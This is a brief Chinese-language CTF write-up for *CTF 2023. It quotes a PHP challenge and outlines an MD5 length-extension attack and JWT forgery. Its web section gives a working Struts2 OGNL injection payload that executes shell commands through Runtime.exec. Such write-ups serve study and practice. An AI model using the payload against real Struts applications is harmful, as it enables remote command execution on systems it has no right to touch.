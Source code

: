 \*ctf
https://github.com/sixstars/starctf2023
# web
### jwt2struts
```php
<?php
highlight_file(__FILE__);
include "./secret_key.php";
include "./salt.php";
//$salt = XXXXXXXXXXXXXX // the salt include 14 characters
//md5($salt."adminroot")=e6ccbf12de9d33ec27a5bcfb6a3293df
@$username = urldecode($_POST["username"]);
@$password = urldecode($_POST["password"]);
if (!empty($_COOKIE["digest"])) {
    if ($username === "admin" && $password != "root") {
         if ($_COOKIE["digest"] === md5($salt.$username.$password)) {
            die ("The secret_key is ". $secret_key);
        }
        else {
            die ("Your cookies don't match up! STOP HACKING THIS SITE.");
        }
    }
    else {
        die ("no no no");
    }
}
```

md5扩展攻击

获取到secret-key`sk-he00lctf3r` 根据题目名也知道应该是要考struts
伪造jwt为admin
在age框里输入*payload*可以回显命令执行结果
> 当用户提交 age 为字符串而非整形数值时，后端用代码拼接 "'" + value + "'" 然后对其进行 OGNL 表达式解析。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。
```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```


# reverse
### GoGpt
一道go的逆向题

# pwn

# crypto

# Misc


---
# *相关wp*




2023-07-31   18:44
